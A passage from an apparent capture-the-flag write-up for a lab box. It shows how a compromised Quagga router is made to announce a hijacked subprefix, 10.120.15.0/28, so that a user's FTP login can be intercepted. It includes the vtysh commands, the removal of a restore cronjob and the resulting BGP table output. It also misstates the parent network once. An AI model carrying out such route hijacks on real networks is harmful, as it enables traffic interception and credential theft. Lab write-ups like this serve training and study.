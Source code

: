 Hmm, looks like we have FTP open on this server. Also, FTP rings a bell. On the web interface for `http://10.10.10.105` under the `tickets` tab after logging in as `admin`, we see the following ticket #6:

> Rx / CastCom. IP Engineering team from one of our upstream ISP called to report a problem with some of their routes being leaked again due to a misconfiguration on our end. Update 2018/06/13: Pb solved: Junior Net Engineer Mike D. was terminated yesterday. Updated: 2018/06/15: CastCom. still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's, one of their VIP is having issues connecting by FTP to an important server in the 10.120.15.0/24 network, investigating... Updated 2018/06/16: No prbl. found, suspect they had stuck routes after the leak and cleared them manually. 

Okay, now this makes sense. There is an important person trying to login to an FTP server in the `10.120.15.0/24` network which is likely the `10.120.15.10` host we just scanned. We have root access to one of the BGP routers and can change the advertised networks to redirect this VIP login through our router in order to capture the credentials for this important user. Then, with these credentials, we will be able to login to the real server and probably find our `root.txt`.

## Root, But For Real This Time:

First we need to figure out how to modify the quagga service to advertise our new route. Here are some good BGP hacking sources:

- https://github.com/mininet/mininet/wiki/BGP-Path-Hijacking-Attack-Demo
- https://www.isi.deterlab.net/file.php?file=/share/shared/BGPhijacking

The idea is to simulate a subprefix hijacking attack. To test that we have this working, we try and intercept the connection from the client. To do so, we edit the routing to allow for `10.120.15.0/28` (a subnet of `10.15.120.0/24` that includes `10.120.15.10`) to be routed through our ASN we own. This is done by using the `vtysh` service (we also remove the cronjob for `/opt/restore.sh` first in order to prevent anything restarting our efforts):

```bash
root@r1:~# crontab -r 
root@r1:~# vtysh 
vtysh 

Hello, this is Quagga (version 0.99.24.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.

r1# configure terminal
configure terminal
r1(config)# router bgp 100
router bgp 100
r1(config-router)# network 10.120.15.0/28
network 10.120.15.0/28
r1(config-router)# end
end
r1# exit
exit
root@r1:~# vtysh -c "show ip bgp"
vtysh -c "show ip bgp"
BGP table version is 0, local router ID is 10.255.255.1
Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
              i internal, r RIB-failure, S Stale, R Removed
Origin codes: i - IGP, e - EGP, ? - incomplete

   Network          Next Hop            Metric LocPrf Weight Path
*> 10.78.10.0/24    0.0.0.0                  0         32768 ?
*> 10.78.11.0/24    0.0.0.0                  0         32768 ?
*> 10.99.64.0/24    0.0.0.0                  0         32768 ?
*> 10.100.10.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.11.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
*> 10.100.12.0/24   10.78.10.2               0             0 200 i
*                   10.78.11.2                             0 300 200 i
```